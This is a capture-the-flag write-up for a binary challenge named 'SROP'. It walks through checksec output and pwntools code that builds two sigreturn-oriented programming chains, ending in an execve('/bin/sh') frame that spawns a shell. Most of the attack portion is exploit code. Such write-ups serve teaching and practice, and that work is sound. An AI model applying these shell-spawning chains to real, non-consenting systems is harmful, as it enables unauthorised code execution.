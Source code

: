 # SROP

## Solution


Initially from the binary I can see that there is No PIE
```
/root/workspace/srop/chal.bin
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

To build the SROP chain I separated the chain into two separate payloads. One of these payloads would be the fake stack and the other would be the sigreturn frame for execve().

The first chain consisted of making the fake stack using a read sigreturn frame. To populate rax, I popped the address of a random string of length 0xf into rdi and called strlen. The first chain is shown below:

```
chain = cyclic(16)
chain += p64(pop_rdi)
chain += p64(next(e.search(b'e best of you?\n')))
chain += p64(e.plt['strlen'])
chain += p64(syscall_ret)
chain += bytes(frame)
```

The second chain consisted of putting /bin/sh at the top of the stack and then following the same pattern of populating rax to invoke a different sigreturn frame.

```
chain = b'/bin/sh\0'            # /bin/sh at top of stack
chain += p64(0)
chain += p64(pop_rdi)
chain += p64(next(e.search(b'e best of you?\n')))
chain += p64(e.plt['strlen'])
chain += p64(syscall_ret)               
chain += bytes(frame)        
```
The frames that are being use are constructed as seen below in the execve() sigreturn frame:

```
frame = SigreturnFrame()
frame.rax = 0x3b                
frame.rdi = fake_stack          
frame.rsi = 0x0                 
frame.rdx = 0x0                 
frame.rip = syscall_ret
```

